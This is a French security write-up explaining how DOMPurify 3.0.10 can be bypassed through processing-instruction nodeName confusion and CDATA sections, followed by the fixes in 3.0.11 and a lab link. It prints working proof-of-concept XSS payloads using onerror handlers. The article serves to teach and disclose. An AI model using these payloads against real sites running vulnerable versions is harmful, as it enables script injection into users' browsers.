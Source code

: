 ```yaml
---
description: 22 mai 2024
---
```


# Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

> Cet article se base sur les recherches de [RyotaK](https://x.com/ryotkak) ([https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)).

## Confusion nodeName

{% hint style="info" %}
Il est recommandé de consulter l'article précédent intitulé [dompurify-3.0.9-bypass-node-type-confusion.md](dompurify-3.0.9-bypass-node-type-confusion.md "mention"), avant de poursuivre la lecture.
{% endhint %}

La version 3.0.9 de Dompurify présente une vulnérabilité de contournement lorsqu'un contenu XML utilisant l'interface `ProcessingInstruction` est utilisé dans une page HTML. La version 3.0.10 corrige ce problème en ajoutant le masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des nœuds XML, permettant ainsi leur prise en compte.

Pour rappel, le format d'une telle instruction est le suivant :&#x20;

```xml
<?target data?>
```

Et l'exploitation de la vulnérabilité peut s'effectuer de cette manière :

```xml
<?xml-stylesheet ><img src=x onerror=alert(1)>?>
```

Puisque la version 3.0.9 de Dompurify n'analyse pas les instructions de traitement (processing instructions), et que l'interface le permet, l'utilisateur peut librement définir la cible (`target`) :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?whatever ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

Provoquant l'affichage de la boîte de dialogue :&#x20;

```html
<div id="userContent">
  <!--?whatever -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Grâce au correctif, la version 3.0.10 de Dompurify analyse dorénavent les noeuds de type `ProcessingInstruction`.

Lorsque Dompurify analyse une balise, la bibliothèque d'assainissement récupère tout d'abord le nom de la balise à analyser en accédant à la propriété `nodeName` :&#x20;

```javascript
/* Now let's check the element's type and name */
const tagName = transformCaseFunc(currentNode.nodeName);
```

Puis vérifie que la balise rencontrée soit autorisée :&#x20;

```javascript
if (!ALLOWED_TAGS[tagName] || FORBID_TAGS[tagName]) {
}
```

Par défaut, les balises autorisées sont les suivantes :&#x20;

```javascript
const html$1 = freeze(['a', 'abbr', 'acronym', 'address', 'area', 'article', 'aside', 'audio', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'content', 'data', 'datalist', 'dd', 'decorator', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'img', 'input', 'ins', 'kbd', 'label', 'legend', 'li', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meter', 'nav', 'nobr', 'ol', 'optgroup', 'option', 'output', 'p', 'picture', 'pre', 'progress', 'q', 'rp', 'rt', 'ruby', 's', 'samp', 'section', 'select', 'shadow', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'wbr']);
```

Pour un noeud de type `ProcessingInstructions`, la propriété `nodeName` retourne la valeur de la cible (`target`). Ainsi, pour contourner l'assainissement effectué par Dompurify en version 3.0.10, il suffit de renseigner une cible (`target`) présente dans la liste de balises autorisées, par exemple `<abbr>` (ou `<img>` comme l'a fait l'auteur de l'article originel) :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?abbr ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--?abbr -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

## Character data (CDATA)

`CDATA` est une section dans un document XML où les données sont traitées comme du texte brut, ce qui signifie que les balises et les entités spéciales à l'intérieur de cette section ne sont pas interprétées comme du code XML mais comme du texte. Cela permet d'inclure des caractères qui pourraient autrement être interprétés comme des balises ou des entités XML.

Une section `CDATA` commence par `<![CDATA[` et se termine par `]]>`. Voici un exemple :&#x20;

```xml
<![CDATA[Ceci est du texte.]]>
```

Le contournement de la version 3.0.9 était dû à l'absence de filtre pour prendre en compte l'interface `ProcessingInstruction`. Il en va de même pour les sections `CDATA` :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1) ]]>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)" ]]>
</div>
```

A noter que la variante suivante semble fonctionner également :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1)>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)">
  "]]>"
</div>
```

## Corrections

Concernant l'interface `ProcessingInstruction`, Dompurify 3.0.11 a décidé de supprimer toutes les occurrences d'instructions de traitement :

```javascript
/* Remove any ocurrence of processing instructions */
if (currentNode.nodeType === 7) {
  _forceRemove(currentNode);
  return true;
}
```

Pour les sections `CDATA`, l'ajout du filtre `NodeFilter.SHOW_CDATA_SECTION` permet de détecter correctement leur utilisation. Étant donné que la valeur de la propriété `nodeName` d'une telle section est `#cdata-section`, qui n'est pas une balise autorisée par défaut, le contournement n'est plus possible.

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION | NodeFilter.SHOW_CDATA_SECTION, null);
};
```

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.10-bypass-confusion-nodename-and-cdata).
